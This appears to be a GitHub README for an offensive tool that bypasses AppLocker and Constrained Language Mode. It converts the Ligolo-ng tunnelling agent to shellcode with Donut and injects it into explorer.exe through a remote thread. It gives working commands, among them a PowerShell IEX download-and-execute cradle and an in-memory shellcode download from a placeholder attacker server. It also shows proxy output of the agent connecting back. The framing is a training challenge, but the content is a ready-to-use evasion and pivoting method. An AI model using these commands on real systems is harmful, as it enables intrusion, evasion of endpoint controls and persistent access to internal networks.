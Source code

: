 # LigoloAppLockerEvasion
LigoloAppLockerEvasion demonstrates a sophisticated in-memory injection technique to bypass AppLocker restrictions by deploying the Ligolo agent as shellcode. This approach enables the Ligolo agent to run without writing any files to disk, making it a powerful method for evading security controls.

# Background
During an Offensive Security challenge, a pivot was required to access another subnet containing additional target machines. The compromised machine on the first network had AppLocker policies and Constrained Language Mode (CLM) enabled, which prevented the Ligolo agent executable from running through conventional means. After experimenting with various techniques, I developed a solution that involves loading the Ligolo agent as shellcode directly into memory, bypassing AppLocker policy . The steps below outline how to load and inject the Ligolo agent shellcode into a target process in-memory.

# Steps to Execute Ligolo Agent as Shellcode
This technique involves the following steps:
1. Generate Ligolo Agent Shellcode using Donut.
2. Use the PowerShell script to load the shellcode and select a target process for injection (e.g., explorer.exe).
3. During the shellcode injection ,  Ligolo-AppLockerBypass.ps1 will :
   - Open the target process (explorer.exe).
   - Allocate memory in the target process.
   - Write the shellcode to the allocated memory.
   - Create a remote thread to execute the shellcode.
   - Perform cleanup after injection.
## 1. Shellcode Generation using Donut
To utilize our approach, we first need to convert the Ligolo agent executable to shellcode using Donut, a shellcode generation tool that supports x86 and x64 architectures and .NET assemblies. Donut can generate shellcode that loads the assembly directly from memory, avoiding detection by bypassing file-based execution.

* Download Ligolo agent: You can obtain the Ligolo agent executable from this [release](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip).
* Download Donut: Download Donut from this [link](https://github.com/TheWover/donut/releases/download/v1.1/donut_v1.1.zip) to generate the shellcode.

The command below uses Donut to convert agent.exe into shellcode (agent.bin). The generated shellcode will be for a 64-bit architecture, and it will execute agent.exe in memory with the specified arguments -connect 192.168.45.158:11601 -ignore-cert. This produces a agent.bin file containing the shellcode, which can then be injected and executed in-memory on the target, bypassing disk operations.

```
PS C:\Users\Administrator\donut_v1.1> .\donut.exe  -f 1 -o .\agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe

  [ Donut shellcode generator v1 (built Oct 23 2024 07:55:06)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "agent.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Parameters    : -connect your-server:11601 -ignore-cert
  [ Target CPU    : amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : ".\agent.bin"
  [ Exit          : Thread
```
Explanation of Donut Options:

| Switch  | Argument | Description 
| ------------- | ------------- | ------------- |
|-a	 | arch |	Target architecture for loader : 1=x86, 2=amd64, 3=x86+amd64(default). |
|-f	| format	| The output format of loader saved to file. 1=Binary (default), 2=Base64, 3=C, 4=Ruby, 5=Python, 6=PowerShell, 7=C#, 8=Hexadecimal|
| -o	|  path	| Specifies where Donut should save the loader. Default is "loader.bin" in the current directory.|
| -p	|parameters |	Optional parameters/command line inside quotations for DLL method/function or EXE.|
| -i | --input: "path" ,--file: "path" | Input file to execute in-memory.|

Once agent.bin is generated, download it to the compromised machine and place it in C:\Windows\Tasks.

## 2. Running Ligolo Agent Shellcode via PowerShell
The script Ligolo-AppLockerBypass.ps1 is designed to load the shellcode into memory, allocate memory in the target process, write the shellcode, and create a remote thread to execute it. This approach enables you to run the script entirely in memory, helping avoid detection by certain security solutions.

PowerShell Script Modifications
In Ligolo-AppLockerBypass.ps1, adjust the shellcode path before running the script:

```
# Set the path to your shellcode
$shellcode = [System.IO.File]::ReadAllBytes("C:\Windows\Tasks\agent.bin")
```
Or If the shellcode (agent.bin) file is also loaded remotely, you can download it in-memory as well without touching the disk by using:
```
$shellcode = (New-Object System.Net.WebClient).DownloadData('http://your-server/agent.bin')
```
Executing the PowerShell Script in Memory
To run the script in memory without saving it to disk, execute the following command:

```
PS > IEX (new-object system.net.webclient).downloadstring('http://your-server/Ligolo-AppLockerBypass.ps1')
```
Upon successful execution, you should see a confirmation message:

> Ligolo Agent Shellcode injected successfully, check the Ligolo Proxy Server interface!
![Untitled 1](https://github.com/user-attachments/assets/9921dc98-c640-487a-b8b6-cf000dfaa1c9)


## 3. Verifying the Agent Connection
Once the script executes in-memory, a new agent should appear in the Ligolo Proxy Server interface:

```
root@kali:/opt/tools/ligolo# ./proxy -selfcert
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
WARN[0000] Using self-signed certificates
WARN[0000] TLS Certificate fingerprint for ligolo is: 19E49BA84004B41DFB2D6DE17348428E69D49F3419096955770A653E97591CC3
INFO[0000] Listening on 0.0.0.0:11601
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!
  Version: 0.7.2-alpha

ligolo-ng » INFO[2804] Agent joined.                                 name="CORP\\offsec@client01" remote="192.168.15.159:62947"
ligolo-ng »
```
# Additional Notes
This approach is advantageous in environments with restrictive AppLocker policies and Constrained Language Mode (CLM), where standard binary execution is blocked. By converting the Ligolo agent into shellcode and injecting it into a trusted process, you bypass these security restrictions and maintain access to internal networks for pivoting.
